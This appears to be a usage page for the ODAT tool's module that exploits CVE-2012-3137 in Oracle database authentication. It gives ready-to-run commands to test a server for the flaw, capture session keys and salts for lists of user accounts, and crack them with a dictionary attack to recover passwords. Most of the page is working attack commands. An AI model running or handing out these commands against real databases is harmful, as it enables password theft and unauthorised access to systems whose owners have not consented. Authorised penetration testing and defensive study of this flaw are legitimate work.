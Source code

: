 # Exploit CVE-2012-3137

This module allows you to exploit the [CVE-2012-3137](http://www.cvedetails.com/cve/CVE-2012-3137/) vulnerability easily.

__Note__: Need *root* privileges in order to sniff session keys and salts from the network.

* To test if the remote database is vulnerable:
```bash
sudo ./odat.py stealRemotePwds -s $SERVER -d $ID -U $USER -P $PASSWORD --test-module
```

With the previous command, ODAT tries to get the session key and salt. If it has these 2 values for the user given in command line (i.e. $USER), ODAT will try to decrypt the session key with your password given in command line (i.e. $PASSWORD). If the session id (value decrypted) starts with '\x08\x08\x08\x08\x08\x08\x08\x08', the password given (i.e. $PASSWORD) for this user (i.e. $USER) is valid: The target database is vulnerable to this CVE-2012-3137.

* To get session keys and salts of users stored in the *accounts_small.txt* file:
```bash
sudo ./odat.py stealRemotePwds -s $SERVER -d $ID --user-list accounts_small.txt --get-all-passwords
```

* To do a dictionary attack on session keys and salts:
```bash
sudo chmod o+r sessions-$SERVER-1521-$SID.txt; ./odat.py stealRemotePwds -s $SERVER -d $SID --decrypt-sessions sessions-$SERVER-1521-$SID.txt test.txt
```
